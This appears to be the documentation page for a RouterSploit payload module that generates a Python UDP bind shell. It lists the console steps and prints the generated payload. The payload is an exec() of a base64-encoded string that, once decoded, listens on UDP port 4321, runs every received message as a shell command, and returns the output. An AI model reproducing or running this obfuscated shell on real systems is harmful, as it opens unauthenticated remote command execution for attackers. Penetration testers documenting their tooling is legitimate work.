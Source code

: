 ## Description

Module generates payload that creates interactive udp bind shell by using python. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/python/bind_udp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates python udp bind shell payload

## Scenarios

```
rsf > use payloads/python/bind_udp
rsf (Python Bind UDP) > set rport 4321
[+] rport => 4321
rsf (Python Bind UDP) > run
[*] Running module...
[*] Generating payload
exec('ZnJvbSBzdWJwcm9jZXNzIGltcG9ydCBQb3BlbixQSVBFCmZyb20gc29ja2V0IGltcG9ydCBzb2NrZXQsIEFGX0lORVQsIFNPQ0tfREdSQU0Kcz1zb2NrZXQoQUZfSU5FVCxTT0NLX0RHUkFNKQpzLmJpbmQoKCcwLjAuMC4wJyw0MzIxKSkKd2hpbGUgMToKCWRhdGEsYWRkcj1zLnJlY3Zmcm9tKDEwMjQpCglvdXQ9UG9wZW4oZGF0YSxzaGVsbD1UcnVlLHN0ZG91dD1QSVBFLHN0ZGVycj1QSVBFKS5jb21tdW5pY2F0ZSgpCglzLnNlbmR0bygnJy5qb2luKFtvdXRbMF0sb3V0WzFdXSksYWRkcikK'.decode('base64'))
```
